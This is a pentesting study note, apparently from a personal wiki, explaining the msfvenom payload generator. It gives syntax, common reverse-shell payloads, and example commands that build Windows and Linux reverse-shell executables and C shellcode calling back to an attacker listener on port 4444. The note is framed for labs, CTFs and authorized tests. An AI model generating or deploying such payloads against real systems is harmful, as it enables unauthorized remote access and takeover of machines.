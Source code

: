 #### Official Documentation: [https://www.offsec.com/metasploit-unleashed/msfvenom/](https://www.offsec.com/metasploit-unleashed/msfvenom/)
#### Cheat Sheet: [[Kali Tools#Msfvenom|Msfvenom Commands]]
## Purpose
Msfvenom is a payload generator for Metasploit. It creates shellcode, executables, or scripts that deliver a payload (reverse shell, meterpreter, etc.).

## Scenarios
- CTF: Generate a Windows reverse shell executable and upload it to the target machine.  
- Real world: Demonstrate impact of payload delivery (with consent) during pentests.

## All needed info to run
- Syntax: `msfvenom -p <payload> [options] -f <format> -o <file>`.  
- Common payloads:
  - `windows/meterpreter/reverse_tcp`  
  - `linux/x86/shell_reverse_tcp`  
  - `android/meterpreter/reverse_tcp`  
- Options:
  - `LHOST=<attacker-ip>`  
  - `LPORT=<attacker-port>`  
  - `-f <format>` → exe, elf, apk, raw, c, python  
  - `-o <output>` → save file  
- Use with a handler in Metasploit: `use exploit/multi/handler`.

## Example commands & outputs
```bash
# Generate Windows reverse shell exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe -o shell.exe
# Output:
# Payload size: 354 bytes
# Final size of exe file: 73802 bytes

# Generate Linux reverse shell ELF
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o shell.elf

# Generate raw shellcode for C
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
# Output: unsigned char buf[] = { ... };
```

!!! note "Msfvenom Basics"
	- `-p` sets payload, `LHOST`/`LPORT` configure attacker’s listener, `-f` sets output format.
	- Use `-l payloads` to list available payloads.
	- Pair with Metasploit `multi/handler` to catch shells.
	- Generated payloads are often detected by AV; use only in labs or authorized tests.


### [[Kali Tools#Msfvenom|Msfvenom Commands]]